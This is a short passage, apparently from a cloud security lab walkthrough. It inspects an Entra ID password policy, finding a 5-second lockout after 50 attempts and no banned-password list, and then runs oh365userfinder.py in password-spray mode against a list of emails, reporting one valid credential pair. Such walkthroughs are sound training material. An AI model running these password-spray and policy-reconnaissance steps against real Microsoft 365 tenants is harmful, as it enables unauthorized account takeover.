 ```
```
```
└─PS> Get-MgBetaDirectorySetting |where {$_.templateId -eq "5cf42378-d67d-4f36-ba46-e8b86229381d"} |convertto-json -Depth 50
{
  "DisplayName": "Password Rule Settings",
  "Id": "cfa57aa1-e6e8-4ff3-9b4e-4295f5619167",
  "TemplateId": "5cf42378-d67d-4f36-ba46-e8b86229381d",
  "Values": [
    {
      "Name": "BannedPasswordCheckOnPremisesMode",
      "Value": "Audit"
    },
    {
      "Name": "EnableBannedPasswordCheckOnPremises",
      "Value": "False"
    },
    {
      "Name": "EnableBannedPasswordCheck",
      "Value": "False"
    },
    {
      "Name": "LockoutDurationInSeconds",
      "Value": "5"
    },
    {
      "Name": "LockoutThreshold",
      "Value": "50"
    },
    {
      "Name": "BannedPasswordList",
      "Value": ""
    }
  ],
  "AdditionalProperties": {}
}
```
The accounts are only locked out for 5 seconds, after 50 failed authentication attempts. The policy also doesn't have a list of banned passwords.

With `oh365userfinder.py` we confirm that we have compromised another user.
```
└─$ python3 oh365userfinder.py -p <REDACTED> --pwspray --elist emails.list     

   ____  __   _____ _____ ______   __  __                  _______           __          
  / __ \/ /_ |__  // ___// ____/  / / / /_______  _____   / ____(_)___  ____/ /__  _____
 / / / / __ \ /_ </ __ \/___ \   / / / / ___/ _ \/ ___/  / /_  / / __ \/ __  / _ \/ ___/ 
/ /_/ / / / /__/ / /_/ /___/ /  / /_/ (__  )  __/ /     / __/ / / / / / /_/ /  __/ /     
\____/_/ /_/____/\____/_____/   \____/____/\___/_/     /_/   /_/_/ /_/\__,_/\___/_/     

                                   Version 1.1.2                                         
                               A project by The Mayor                                    
                        Oh365UserFinder.py -h to get started                            

------------------------------------------------------------------------------------------

[info] Starting Oh365 User Finder at Tue Sep 23 14:58:05 2025

[+] sunita.williams@megabigtech.com              Result -                VALID PASSWORD! [+]

[info] Oh365 User Finder discovered one valid credential pair.

[info] Scan completed at Tue Sep 23 14:58:07 2025

```